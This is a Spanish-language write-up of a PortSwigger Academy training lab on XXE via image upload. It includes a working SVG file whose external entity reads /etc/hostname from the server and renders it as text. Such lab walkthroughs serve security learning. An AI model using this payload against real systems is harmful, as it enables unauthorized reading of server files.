




+++
author = "Alux"
title = "Portswigger Academy Learning Path: XML external entity (XXE) Lab 9"
date = "2022-01-26"
description = "Lab: Exploiting XXE via image file upload"
tags = [
    "xxe",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Exploiting XXE via image file upload

La vulnerabilidad o el ataque de XXE es poder realizar una inyeccion XML en la aplicacion que analiza la entrada que le pasa el usuario o el sistema. Lo que hace que un analizados XML no este configuracion o este configurado debilmente para que procese peticiones que un usuario mal intencionado pueda inyectar. Pudiendo llegar a ejecucion de comandos, lectura de archivos y otros.


## Reconocimiento

En este <cite>laboratorio[^1]</cite>la finalidad es muy diferente y es que el sistema permite la subida de archivos y la cual permite dejar comentarios en este, asi que vamos a un post y ver la funcionalidad.



Lo primero que podemos ver es que aunque no lo sepamos existe un tipo de imagen que es `SVG` en la cual esta embebido codigo XML que permite dibujar cualquier cosa que se desee desde graficas, mapas o texto.


## Explotacion

Y aprovechandonos de la funcionalidad de escribir texto crearemos un archivo `.svg` con el contenido siguiente el cual contine codigo XML que lo que hara es crear una imagen del contenido del archivo /etc/hostname podriamos modificarle el tamano de texto o tamano, etc. pero lo principal es dibujar el texto.


```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg> 
```

Subido el archivo podemos notar el comentario y ver como en nuestra imagen se ve de lejos el contenido del archivo hostname



Ahora abrimos la imagen en otra ventana y ya podemos claramente ver el contenido



Y con esto hemos resuelto el lab. 



[^1]: [Laboratorio](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)